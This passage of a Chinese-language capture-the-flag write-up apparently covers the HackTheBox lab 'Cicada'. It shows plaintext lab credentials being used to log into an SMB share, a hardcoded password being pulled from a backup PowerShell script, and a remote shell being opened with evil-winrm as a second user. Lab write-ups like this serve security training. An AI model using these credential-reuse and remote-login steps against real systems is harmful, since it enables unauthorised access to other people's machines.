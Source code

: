 **获得`user1`的凭据：`david.orelious/aRt$Lp#7t*VQ!3`**

通过这个user1登陆smb

```shell
╭─bamuwe@Mac ~/Desktop
╰─$ smbclient  //10.10.11.35/dev -U 'david.orelious'
Password for [WORKGROUP\david.orelious]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 14 20:31:39 2024
  ..                                  D        0  Thu Mar 14 20:21:29 2024
  Backup_script.ps1                   A      601  Thu Aug 29 01:28:22 2024

                4168447 blocks of size 4096. 419726 blocks available
smb: \>
```

获得`Backup_script.ps1`，内容如下：

> ╭─bamuwe@Mac ~/Desktop
> ╰─$ cat Backup_script.ps1
>
> $sourceDirectory = "C:\smb"
> $destinationDirectory = "D:\Backup"
>
> $username = "emily.oscars"
> $password = ConvertTo-SecureString "Q!3@Lp#M6b*7t*Vt" -AsPlainText -Force
> $credentials = New-Object System.Management.Automation.PSCredential($username, $password)
> $dateStamp = Get-Date -Format "yyyyMMdd_HHmmss"
> $backupFileName = "smb_backup_$dateStamp.zip"
> $backupFilePath = Join-Path -Path $destinationDirectory -ChildPath $backupFileName
> Compress-Archive -Path $sourceDirectory -DestinationPath $backupFilePath
> Write-Host "Backup completed successfully. Backup file saved to: $backupFilePath"

**获得`user2`的凭据`emily.oscars/Q!3@Lp#M6b*7t*Vt`**

使用user2的凭据登陆

```shell
╭─bamuwe@Mac ~
╰─$ evil-winrm -i 10.10.11.35 -u 'emily.oscars' -p 'Q!3@Lp#M6b*7t*Vt'

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> whoami
cicada\emily.oscars
```

